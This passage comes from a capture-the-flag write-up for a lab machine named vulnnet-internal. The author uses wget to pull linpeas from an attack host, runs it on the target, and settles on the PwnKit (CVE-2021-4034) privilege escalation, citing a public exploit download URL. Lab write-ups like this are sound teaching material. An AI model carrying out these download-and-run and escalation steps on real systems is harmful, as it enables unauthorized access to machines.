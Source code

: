 ```
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

<username>@vulnnet-internal:~$ pwd
/home/<username>
```

I looked around the system briefly and unless there are low hangging fruits, I prefer to use linpeas to quickly analyze the target.  I set up a quick python web server on my attack box, downloaded linpeas on the victim box.  

Attack box: `python3 -m http.server 8000`  

Victim box:  
```
<username>@vulnnet-internal:~$ cd /tmp
<username>@vulnnet-internal:/tmp$ wget http://10.9.0.28:8000/linpeas.sh
--2022-11-19 21:22:33--  http://10.9.0.28:8000/linpeas.sh
Connecting to 10.9.0.28:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 776167 (758K) [text/x-sh]
Saving to: ‘linpeas.sh’

linpeas.sh                                          100%[==================================================================================================================>] 757.98K  1.24MB/s    in 0.6s    

2022-11-19 21:22:34 (1.24 MB/s) - ‘linpeas.sh’ saved [776167/776167]
<username>@vulnnet-internal:/tmp$ chmod +x linpeas.sh 
<username>@vulnnet-internal:/tmp$ ./linpeas.sh 
```

After combing through the output provided by linpeas, I settled on exploiting CVE-2021-4034 vulnerability, a.k.a. pwnkit:  

```
[+] [CVE-2021-4034] PwnKit                                                                                                                                                                                     

   Details: https://www.qualys.com/2022/01/25/cve-2021-4034/pwnkit.txt
   Exposure: probable
   Tags: [ ubuntu=10|11|12|13|14|15|16|17|18|19|20|21 ],debian=7|8|9|10|11,fedora,manjaro
   Download URL: https://codeload.github.com/berdav/CVE-2021-4034/zip/main
```
